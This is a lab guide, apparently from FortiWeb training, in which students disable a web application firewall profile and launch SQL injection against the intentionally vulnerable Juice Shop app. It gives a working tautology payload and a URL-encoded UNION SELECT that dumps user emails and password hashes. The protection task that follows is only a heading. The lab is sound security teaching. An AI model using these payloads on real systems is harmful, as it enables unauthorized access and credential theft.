```yaml
---
mark_as_read:
    updated_at: 2024-03-24 17:00:00+03:00
---
```


# Lab 8: SQL Injection

## Task 1: Launch SQL Attack

1. Disable the Web Protection Profile under Juice Shop Server Policy. No screenshots - it's a small challenge :) 

1. Open a the browser in Kali Linux VM and type the Public IP assigned to the FortiWeb instance followed by port 3000 to get to the JuiceShop Web Page. http://FortiWebIP:3000

1. Launch an SQLi attack append ```?name=' OR 'x'='x``` to the URL.

    The URL will be similar to: ```http://35.192.193.224:3000/?name=' OR 'x'='x```

1. Press **ENTER**, to see that the website is vulnerable to SQLi attacks. Try another one; append the following text to website's URL:

    ```/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--```

    The URL will be similar to: http://35.192.193.224:3000/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

1. Press ENTER to view a list of SQL Users

    ![LE1 SQLSimple img1](LE1-SQLSimple-img1.png)

## Task 2: Protect WebServer
